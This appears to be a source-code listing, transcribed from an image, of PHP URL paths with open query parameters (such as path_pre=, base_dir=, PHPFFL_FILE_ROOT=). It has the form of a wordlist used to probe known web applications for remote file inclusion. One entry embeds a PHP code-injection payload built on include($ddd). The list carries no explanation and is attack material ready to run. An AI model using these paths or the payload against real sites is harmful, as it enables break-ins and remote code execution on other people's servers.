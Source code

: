 /path.php?panel=
/path.php?path=
/path.php?play=
/path.php?pre=
/path.php?pref=
/path.php?qry=
/path.php?recipe=
/path.php?sec=
/path.php?secao=
/path.php?sivu=
/path.php?sp=
/path.php?start=
/path.php?strona=
/path.php?subject=
/path.php?thispage=
/path.php?tipo=
/path.php?type=
/path.php?var=
/path.php?where=
/path.php?xlink=
/path.php?y=
/path/index.php?function=custom&custom=
/path_of_cpcommerce/_functions.php?prefix
/path_of_cpcommerce/_functions.php?prefix=
/phfito/phfito-post?SRC_PATH=
/photoalb/lib/static/header.php?set_menu=
/PHPDJ_v05/dj/djpage.php?page=
/phpffl/phpffl_***files/program_files/livedraft/admin.php?PHPFFL_FILE_ROOT=
/phpffl/phpffl_***files/program_files/livedraft/livedraft.php?PHPFFL_FILE_ROOT=
/phphtml.php?htmlclass_path=
/PhpLinkExchange/bits_listings.php?svr_rootPhpStart=
/phpopenchat/contrib/yabbse/poc.php?sourcedir=
/phprojekt/lib/config.inc.php?path_pre=
/phprojekt/lib/gpcs_vars.inc.php?path_pre=
/phprojekt/lib/layout/venus/venus.php?path_pre=
/phprojekt/lib/lib.inc.php?path_pre=
/phpsecurityadmin/include/logout.php?PSA_PATH=
/phpshop/index.php?base_dir=
/phpwcms/include/inc_ext/spaw/dialogs/table.php?spaw_root=
/phpwcms_template/inc_script/frontend_render/navigation/config_HTML_MENU.php?HTML_MENU_DirPath=
/phpwcms_template/inc_script/frontend_render/navigation/config_PHPLM.php?HTML_MENU_DirPath=
/pivot/modules/module_db.php?pivot_path=
/pm/lib.inc.php?pm_path=
/poll/comments.php?id={${include($ddd)}}{${exit()}}&ddd=
/pop.php?base=
/popup_window.php?site_isp_root=
/port.php?content=
/powerup.cgi?a=latest&t=
/ppa/inc/functions.inc.php?config[ppa_root_path]=
/prepare.php?xcart_dir=
/press.php?*root*=
/press.php?*[*]*=
/press.php?abre=
/press.php?addr=
/press.php?base_dir=
/press.php?category=
/press.php?channel=
/press.php?destino=
/press.php?dir=
/press.php?ev=
/press.php?get=
/press.php?goFile=
/press.php?home=
/press.php?i=